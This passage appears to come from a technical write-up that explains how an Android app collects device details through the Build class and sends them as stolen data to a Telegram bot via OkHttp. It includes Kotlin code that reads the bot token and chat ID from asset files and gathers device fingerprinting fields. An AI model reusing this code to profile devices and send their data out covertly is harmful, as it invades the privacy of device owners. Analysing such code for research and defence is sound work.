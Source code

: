 
The app uses `OkHttp` to send an `HTTP POST` request to the Telegram API, containing the stolen data, like device info and other metadata (such as "Meow! ♥️").     

The Bot token and Chat ID are fetched from files stored in the assets directory (`token.txt` and `id.txt`):     

```kotlin
// fetch token and chatId from assets (assuming these are saved in files)
private fun getTokenFromAssets(): String {
    return context.assets.open("token.txt").bufferedReader().readText().trim()
}

private fun getChatIdFromAssets(): String {
    return context.assets.open("id.txt").bufferedReader().readText().trim()
}
```

Then the device info (e.g., manufacturer, model, device ID) is collected using Android's `Build` class. This data is often used by attackers for device profiling and reconnaissance:     

```kotlin
// get device info
private fun getDeviceName(): String {
    fun capitalize(s: String?): String {
        if (s.isNullOrEmpty()) {
            return ""
        }
        val first = s[0]
        return if (Character.isUpperCase(first)) {
            s
        } else {
            first.uppercaseChar().toString() + s.substring(1)
        }
    }

    val manufacturer = Build.MANUFACTURER
    val model = Build.MODEL
    val device = Build.DEVICE
    val deviceID = Build.ID
    val brand = Build.BRAND
    val hardware = Build.HARDWARE
    val hostInfo = Build.HOST
    val userInfo = Build.USER
    val board = Build.BOARD
    val display = Build.DISPLAY
    val fingerprint = Build.FINGERPRINT
    val devT = Build.TYPE
    val radio = Build.getRadioVersion()

    val info = "Hardware: ${capitalize(hardware)}\n" +
            "Manufacturer: ${capitalize(manufacturer)}\n" +
            "Model: ${capitalize(model)}\n" +
            "Device: ${capitalize(device)}\n" +
            "ID: ${capitalize(deviceID)}\n" +
            "Brand: ${capitalize(brand)}\n" +
            "Host: ${capitalize(hostInfo)}\n" +
            "User: ${capitalize(userInfo)}\n" +
            "Board: ${capitalize(board)}\n" +
            "Display: ${capitalize(display)}\n" +
            "Fingerprint: ${capitalize(fingerprint)}\n" +
            "Build TYPE: ${capitalize(devT)}\n" +
            "RADIO: ${capitalize(radio)}"

    return info
}
```